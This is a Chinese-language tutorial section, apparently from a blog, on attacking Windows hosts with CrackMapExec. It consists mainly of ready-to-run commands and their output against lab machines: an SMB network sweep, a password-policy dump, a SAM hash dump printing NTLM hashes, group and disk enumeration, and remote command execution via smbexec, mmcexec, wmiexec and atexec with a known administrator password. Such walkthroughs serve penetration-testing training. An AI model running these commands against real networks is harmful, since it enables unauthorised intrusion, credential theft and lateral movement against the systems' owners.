 ### 10.4 与CrackMapExec结合攻击

CrackMapExec弥补了MSF4下auxiliary，scanner模块下的Command执行方式，但MSF5已解决该问题。在MSF4下，该框架针对后渗透的横向移动经常出现，虽然MSF5已解决该问题，但该框架在配合bloodhound与empire依然目前有一定优势。

安装方式：from Wiki：

#### Kali 安装

    apt‐get install crackmapexec
    
        

但作者推荐pipenv安装：

    apt‐get install ‐y libssl‐dev libffi‐dev python‐dev build‐essential
    pip install ‐‐user pipenv
    git clone ‐‐recursive https://github.com/byt3bl33d3r/CrackMapExec
    cd CrackMapExec && pipenv install
    pipenv shell
    python setup.py install
    
        

#### Mac OSX 安装

    pip install ‐‐user crackmapexec
    
        

默认为100线程

    cme smb 192.168.1.0/24
    SMB 192.168.1.4 445 JOHN‐PC [*] Windows 7 Ultimate 7601 Service Pack 1
    x64 (name:JOHN‐PC) (domain:JOHN‐PC) (signing:False) (SMBv1:True)
    SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
    Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220019274.png%23pic_center)-
密码策略

    root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐pass ‐pol
    SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
    Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
    SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
    SMB 192.168.1.119 445 WIN03X64 [+] Dumping password info for domain: WIN03X64
    SMB 192.168.1.119 445 WIN03X64 Minimum password length: None
    SMB 192.168.1.119 445 WIN03X64 Password history length: None
    SMB 192.168.1.119 445 WIN03X64 Maximum password age: 42 days 22 hours 47 minutes
    SMB 192.168.1.119 445 WIN03X64
    SMB 192.168.1.119 445 WIN03X64 Password Complexity Flags: 000000
    SMB 192.168.1.119 445 WIN03X64 Domain Refuse Password Change: 0
    SMB 192.168.1.119 445 WIN03X64 Domain Password Store Cleartext: 0
    SMB 192.168.1.119 445 WIN03X64 Domain Password Lockout Admins: 0
    SMB 192.168.1.119 445 WIN03X64 Domain Password No Clear Change: 0
    SMB 192.168.1.119 445 WIN03X64 Domain Password No Anon Change: 0
    SMB 192.168.1.119 445 WIN03X64 Domain Password Complex: 0
    SMB 192.168.1.119 445 WIN03X64
    SMB 192.168.1.119 445 WIN03X64 Minimum password age: None
    SMB 192.168.1.119 445 WIN03X64 Reset Account Lockout Counter: 30 minutes
    SMB 192.168.1.119 445 WIN03X64 Locked Account Duration: 30 minutes
    SMB 192.168.1.119 445 WIN03X64 Account Lockout Threshold: None
    SMB 192.168.1.119 445 WIN03X64 Forced Log off Time: Not Set
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220036542.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
list hash

    root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐sam
    SMB 192.168.1.119 445 WIN03X64 [*] Windows Server 2003 R2 3790 Service
    Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
    SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
    SMB 192.168.1.119 445 WIN03X64 [+] Dumping SAM hashes
    SMB 192.168.1.119 445 WIN03X64 Administrator:500:44efce164ab921caaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
    SMB 192.168.1.119 445 WIN03X64 Guest:501:aad3b435b51404eeaad3b435b51404ee:67f33d2095bda39fbf6b63fbadf2313a:::
    SMB 192.168.1.119 445 WIN03X64 SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:f4d13c67c7608094c9b0e39147f07520:::
    SMB 192.168.1.119 445 WIN03X64 IUSR_WIN03X64:1003:dbec20afefb6cc332311fb9822ba61ce:68c22a11c400d91fa4f66ff36b3c15dc:::
    SMB 192.168.1.119 445 WIN03X64 IWAM_WIN03X64:1004:ff783381e4e022de176c59bf598409c7:7e456daac229ddceccf5f367aa69a487:::
    SMB 192.168.1.119 445 WIN03X64 ASPNET:1008:cc26551b70faffc095feb73db16b65ff:fec6e9e4a08319a1f62cd30447247f88:::
    SMB 192.168.1.119 445 WIN03X64 [+] Added 6 SAM hashes to the database
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220056651.png%23pic_center)-
枚举组

    root@John:~# cme smb 192.168.1.119 ‐u administrator ‐p '123456' ‐‐local‐groups
    SMB 192.168.1.119 445 WIN03X64 [\*] Windows Server 2003 R2 3790 Service
    Pack 2 x32 (name:WIN03X64) (domain:WIN03X64) (signing:False) (SMBv1:True)
    SMB 192.168.1.119 445 WIN03X64 [+] WIN03X64\administrator:123456 (Pwn3d!)
    SMB 192.168.1.119 445 WIN03X64 [+] Enumerated local groups
    SMB 192.168.1.119 445 WIN03X64 HelpServicesGroup membercount: 1
    SMB 192.168.1.119 445 WIN03X64 IIS_WPG membercount: 4
    SMB 192.168.1.119 445 WIN03X64 TelnetClients membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Administrators membercount: 1
    SMB 192.168.1.119 445 WIN03X64 Backup Operators membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Distributed COM Users membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Guests membercount: 2
    SMB 192.168.1.119 445 WIN03X64 Network Configuration Operators membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Performance Log Users membercount: 1
    SMB 192.168.1.119 445 WIN03X64 Performance Monitor Users membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Power Users membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Print Operators membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Remote Desktop Users membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Replicator membercount: 0
    SMB 192.168.1.119 445 WIN03X64 Users membercount: 3
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220124623.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
分别支持4种执行Command，如无–exec-method执行，默认为wmiexec执行。

    mmcexec   
    smbexec   
    wmiexec   
    atexec  
    
        

基于smbexec执行Command

    root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method smbexec ‐x 'net user'
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
    0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
    5BMI9HGC42S\administrator:123456 (Pwn3d!)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via smbexec
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S \\ ���û��ʻ�
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
    ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S Administrator Guest
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S ����������ϣ�������һ����������
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220147421.png%23pic_center)-
基于dcom执行Command

    root\@John:\~\# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method mmcexec ‐x 'whoami'
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
    0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
    5BMI9HGC42S\administrator:123456 (Pwn3d!)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via mmcexec
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220241284.png%23pic_center)-
基于wmi执行Command

    root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method wmiexec ‐x 'whoami'
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
    0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
    5BMI9HGC42S\\administrator:123456 (Pwn3d!)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via wmiexec
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220256240.png%23pic_center)-
基于AT执行Command

目标机：无运行calc进程-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220314107.png%23pic_center)

    root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐exec‐method atexec ‐x 'calc'
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
    0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
    5BMI9HGC42S\administrator:123456 (Pwn3d!)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command via atexec
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220325342.png%23pic_center)-
默认采取wmiexec执行Command，参数为-x

    root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐x 'whoami'
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
    0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
    5BMI9HGC42S\administrator:123456 (Pwn3d!)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Executed command
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S win‐5bmi9hgc42s\administrator
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220339984.png%23pic_center)-
枚举目标机disk

    root@John:~# cme smb 192.168.1.6 ‐u administrator ‐p '123456' ‐‐disks
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [*] Windows Web Server 2008 R2 760
    0 x64 (name:WIN‐5BMI9HGC42S) (domain:WIN‐5BMI9HGC42S) (signing:False) (SMBv1:True)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] WIN‐
    5BMI9HGC42S\\administrator:123456 (Pwn3d!)
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S [+] Enumerated disks
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S C:
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S D:
    SMB 192.168.1.6 445 WIN‐5BMI9HGC42S E:
    
        

附录：-
解决出现：STATUS\_PIPE\_DISCONNECTED-
-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220403936.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

改成经典-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008220410256.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

解决出现错误：UnicodeDecodeError:

升级impacket

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020100822042396.png%23pic_center)

* * *